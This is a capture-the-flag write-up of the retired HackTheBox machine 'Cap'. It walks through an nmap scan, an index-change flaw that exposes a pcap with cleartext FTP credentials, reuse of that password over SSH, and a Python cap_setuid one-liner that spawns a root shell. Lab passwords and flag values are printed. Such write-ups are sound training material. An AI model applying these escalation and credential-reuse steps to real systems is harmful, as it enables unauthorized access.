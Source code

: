 Title:HTB: Cap
Date: 10-23-2021 11:40
category:security
tags:security, boot2root, HTB, capabilities
meta:security, boot2root, HTB, capabilities

<img class="align-left" src="/media/2021.10/cap_card.png" alt="cap Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Cap](https://www.hackthebox.com/home/machines/profile/351) published on
June 5, 2021 by
[InfoSecJack](https://www.hackthebox.com/home/users/profile/52045).
This box is rated as easy box the user part implies to know a bit about array
indexes and wireshark. The root part is quit easy and implies a binary
capabilities.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 21 (FTP), 22 (SSH) and 80 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sat Jun 19 08:05:17 2021 as: nmap -p- -sSV -A -oN notes.md 10.129.162.82
    Nmap scan report for 10.129.162.82
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    <SNIP>


## FTP

No anonymous connection is available on it.

## Web

This is a server monitoring website. We can access a few technical information
as the result of the `ip a` command.

![Result of ip a command](/media/2021.10/cap_01.png)

We also have access to a "capture and analyze packets" tool which make me think
about a tcpdump or wireshark RCE exploit.

![Packet capture and analyzer](/media/2021.10/cap_02.png)

But this was quit simpler. Notice the "index" in the picture above: 1. Or in
programming language, most table start with the index 0. We just change the URL
to `data/0` and open the pcap with wireshark.

We can see a few FTP frames. The FTP traffic is in clear text, we use the
"follow TCP stream" option from wireshark and get the FTP packets containing a
username and a password.

    :::text
    220 (vsFTPd 3.0.3)
    USER nathan
    331 Please specify the password.
    PASS Buck3tH4TF0RM3!
    230 Login successful.
    SYST
    215 UNIX Type: L8
    PORT 192,168,196,1,212,140
    <SNIP>

We can connect using FTP and get access to Nathan's files but the user is using the same password for his SSH access :S

    :::text
    ┌──(kali㉿kali)-[~]
    └─$ ssh nathan@10.129.162.82
    nathan@10.129.162.82's password: 
    <SNIP>
    nathan@cap:~$ cat user.txt
    881dbf629f65f88eca6c0be9dab5db20


# Root

We quickly check our `sudo` privileges but we do not have any.

The name of the box might be a hint here. We can run a Linux privilege
escalation tool as
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
or just run the appropriate command available on
[Linux privilege escalation methodologies](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities).

We quickly found out that `/usr/bin/python3.8` has the `setuid` capabilities
which allow to [make arbitrary manipulations of process UIDs](https://man7.org/linux/man-pages/man7/capabilities.7.html)


    :::text
    nathan@cap:/$ getcap -r / 2> /dev/null
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

We just have to run a simple python command either via the python console or in
a oneliner to pop a root shell and grab the flag.

    :::text
    nathan@cap:/$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # id
    uid=0(root) gid=1001(nathan) groups=1001(nathan)
    # cat /root/root.txt
    96f9681e3e9831523150b8a56f288a90

# Wrapping up

This was an easy box! I struggle an bit on the "Array index" as I was in the
tcpdump/wireshark rce rabbit hole. Nonetheless a great box for every beginners.

